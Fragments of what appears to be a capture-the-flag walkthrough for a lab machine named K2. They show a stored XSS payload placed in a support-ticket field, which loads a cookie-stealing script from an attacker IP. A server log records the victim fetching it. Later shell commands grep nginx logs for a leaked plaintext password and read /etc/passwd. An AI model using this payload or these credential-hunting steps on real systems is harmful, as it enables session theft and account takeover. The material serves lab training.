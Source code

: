 title=hello&description=<script src="http://10.201.108.225:8000/cookiestealer.js"></script>




HTTP/1.1 200 OK
                    Ticket submitted successfully! It will be reviewed shortly!                









~/K2# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.201.88.234 - - [29/Sep/2025 22:07:03] "GET /cookiestealer.js HTTP/1.1" 200 -
10.201.88.234 - - [29/Sep/2025 22:07:05] "GET /cookiestealer.js HTTP/1.1" 200 -
10.201.88.234 - - [29/Sep/2025 22:07:07] "GET /cookiestealer.js HTTP/1.1" 200 -
10.201.88.234 - - [29/Sep/2025 22:07:09] "GET /cookiestealer.js HTTP/1.1" 200 -





<br>
<h3 align="center">Host Resolution</h3>
<p  align="center"><code>k2.thm  .  admin.ke.thm  .  it.k2.thm</code></p>

```bash
xx.xxx.xx.xxx    k2.thm admin.k2.thm it.k2.thm
```








james@k2:/var/log/nginx$ cat access.log.1 | grep pass
10.0.2.51 - - [24/May/2023:22:17:17 +0000] "GET /login?username=rose&password=RdzQ7MSKt)fNaz3! HTTP/1.1" 200 1356 "http://admin.k2.thm/" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
james@k2:/var/log/nginx$ 





james@k2:/var/log$ cd nginx
james@k2:/var/log/nginx$ grep -Ri 'pass'
access.log.1:10.0.2.51 - - [24/May/2023:22:17:17 +0000] "GET /login?username=rose&password=RdzQ7MSKt)fNaz3! HTTP/1.1" 200 1356 "http://admin.k2.thm/" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
james@k2:/var/log/nginx$ grep -i bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
rose:x:1001:1001:Rose Bud:/home/rose:/bin/bash
james:x:1002:1002:James Bold:/home/james:/bin/bash
james@k2:/var/log/nginx$ grep -i /bin/bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
rose:x:1001:1001:Rose Bud:/home/rose:/bin/bash
james:x:1002:1002:James Bold:/home/james:/bin/bash
james@k2:/var/log/nginx$ 
